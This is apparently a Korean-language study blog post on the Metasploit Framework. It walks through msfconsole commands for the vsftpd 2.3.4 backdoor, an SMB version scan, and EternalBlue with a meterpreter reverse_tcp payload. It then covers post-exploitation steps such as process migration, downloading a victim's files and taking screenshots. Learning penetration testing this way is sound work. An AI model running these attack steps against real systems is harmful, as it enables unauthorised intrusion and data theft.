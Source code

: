 ```yaml
---
layout: post
title: "Metasploit Framework 공부"
date: 2025-09-26 17:00:00 +0900
categories: [해킹 툴]
---
```


### 1. 개요

Metasploit Framework(MSF)는 취약점 연구, 익스플로잇 코드 개발 및 실행을 위한 오픈소스 플랫폼이다. 정보 수집 · 취약점 스캔 · 익스플로잇 · 페이로드 실행 등 침투 테스트의 전 과정을 체계적으로 수행할 수 있는 환경을 제공한다.

개별 도구를 따로 사용하는 대신 `msfconsole`이라는 통합된 인터페이스 안에서 다양한 모듈을 조합하여 공격을 수행할 수 있다는 것이 가장 큰 특징이다.

---

### 2. 핵심 구성 요소

*   **Exploits (익스플로잇):** 취약점을 직접 공격하는 코드이다. 운영체제 · 서비스 · 애플리케이션 등 다양한 대상의 취약점을 공격하는 수천 개의 익스플로잇 모듈이 내장되어 있다.
*   **Payloads (페이로드):** 익스플로잇이 성공한 후 대상 시스템에서 실행되는 코드이다. 가장 대표적인 페이로드가 리버스 쉘을 연결하는 `meterpreter`나 `shell`이다.
*   **Auxiliary (보조 모듈):** 직접적인 공격 외에 정보 수집 · 스캐닝 · 퍼징 등 보조적인 작업을 수행하는 모듈이다. 포트 스캐너나 특정 서비스의 버전 정보를 확인하는 용도로도 사용된다.

---

### 3. 기본 사용 흐름

`msfconsole` 내에서의 작업은 일반적으로 다음의 흐름을 따른다.

1.  **`search [키워드]`**: 공격할 서비스나 취약점과 관련된 모듈을 검색한다.
2.  **`use [모듈 이름]`**: 사용할 익스플로잇이나 보조 모듈을 선택한다.
3.  **`show options`**: 선택한 모듈에 설정해야 할 옵션들을 확인한다. `RHOSTS`, `LHOST`
4.  **`set [옵션 이름] [값]`**: `RHOSTS`(대상 IP) `LHOST`(공격자 IP) 등 필요한 옵션을 설정한다.
5.  **`run` 또는 `exploit`**: 설정된 값으로 모듈을 실행한다.

---

### 4. 사용 예시: vsftpd 백도어 공격

알려진 백도어 취약점이 있는 `vsftpd 2.3.4` 버전을 대상으로 Metasploit을 이용해 시스템 쉘을 획득하는 상황이다.

```bash
# 1. msfconsole 실행
msfconsole

# 2. vsftpd 관련 모듈 검색
msf6 > search vsftpd

# 3. 백도어 익스플로잇 모듈 선택
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor

# 4. 옵션 확인
msf6 exploit(...) > show options

# 5. 대상 IP 설정
msf6 exploit(...) > set RHOSTS 192.9.200.11

# 6. 공격 실행
msf6 exploit(...) > exploit
```
[여기에 Metasploit vsftpd 공격 성공 이미지 삽입]

`exploit` 명령 실행 후 익스플로잇이 성공하면 대상 서버의 `root` 권한 쉘이 획득된 것을 확인할 수 있다. `whoami` 명령어를 통해 이를 증명할 수 있다.

---

### 5. 사용 예시 2: 보조 모듈을 이용한 정보 수집 (SMB 스캔)

Metasploit은 직접적인 공격 외에도 `Auxiliary` 모듈을 통해 다양한 정보 수집 활동을 수행할 수 있다. 예를 들어 `smb_version` 모듈은 대상 서버의 SMB(윈도우 파일 공유) 서비스 버전을 확인하는 데 사용된다.

```bash
# 1. SMB 버전 스캔 모듈 검색 및 선택
msf6 > search smb_version
msf6 > use auxiliary/scanner/smb/smb_version

# 2. 대상 IP 설정
msf6 auxiliary(...) > set RHOSTS 192.9.200.11

# 3. 스캐너 실행
msf6 auxiliary(...) > run
```
[여기에 Metasploit SMB 스캔 결과 이미지 삽입]

`run` 명령 실행 후 대상 서버의 운영체제 정보와 Samba 버전 정보가 출력된다. 이 정보는 추후 해당 버전에 맞는 익스플로잇을 찾는 데 사용될 수 있다.

---

### 6. 사용 예시 3: Meterpreter를 이용한 시스템 제어

Metasploit의 가장 강력한 기능은 **Meterpreter** 페이로드에 있다. Meterpreter는 일반 쉘과 달리 메모리 상에서만 동작하며, 파일 시스템 정보 수집, 프로세스 제어, 권한 상승 등 침투 테스트에 특화된 다양한 기능을 제공한다.

이 예시는 윈도우 시스템의 SMB 취약점(MS17-010, 이터널블루)을 공격하여 Meterpreter 세션을 획득하고 시스템을 제어하는 과정을 보여준다.

#### **1. 익스플로잇 및 페이로드 설정**
```bash
# 이터널블루 익스플로잇 모듈 선택
msf6 > use exploit/windows/smb/ms17_010_eternalblue

# 옵션 확인 및 대상 IP(RHOSTS), 공격자 IP(LHOST) 설정
msf6 exploit(...) > set RHOSTS [Target Windows IP]
msf6 exploit(...) > set LHOST [Attacker IP]

# 페이로드를 Meterpreter로 설정 (보통 자동으로 설정됨)
msf6 exploit(...) > set PAYLOAD windows/x64/meterpreter/reverse_tcp

# 공격 실행
msf6 exploit(...) > exploit
```

#### **2. Meterpreter 세션 활용**
공격에 성공하면 `meterpreter >` 라는 새로운 프롬프트가 나타난다. 여기서는 일반 쉘 명령어와 다른 Meterpreter 전용 명령어를 사용할 수 있다.

*   **시스템 정보 확인:**
    ```meterpreter
    sysinfo     # 대상 시스템의 운영체제, 아키텍처 등 기본 정보 확인
    getuid      # 현재 세션이 어떤 사용자 권한으로 실행 중인지 확인 (예: NT AUTHORITY\SYSTEM)
    ```
*   **프로세스 제어:**
    ```meterpreter
    ps          # 현재 실행 중인 프로세스 목록 확인
    migrate [PID] # Meterpreter 세션을 다른 안정적인 프로세스(예: explorer.exe)로 이전하여 연결 지속성을 높임
    ```
*   **파일 시스템 및 정보 탈취:**
    ```meterpreter
    ls          # 현재 디렉터리의 파일 목록 확인
    download C:\\Users\\user\\Desktop\\secret.txt .  # 대상 PC의 파일을 공격자 PC로 다운로드
    screenshot  # 대상 PC의 현재 화면을 스크린샷으로 캡처
    ```

[여기에 Meterpreter 세션 획득 및 명령어 실행 이미지 삽입]

이처럼 Meterpreter는 단순한 원격 제어를 넘어 시스템을 분석하고 정보를 탈취하며 공격의 흔적을 숨기는 등 고도화된 침투 테스트 작업을 효율적으로 수행할 수 있는 환경을 제공한다.

<hr class="short-rule">
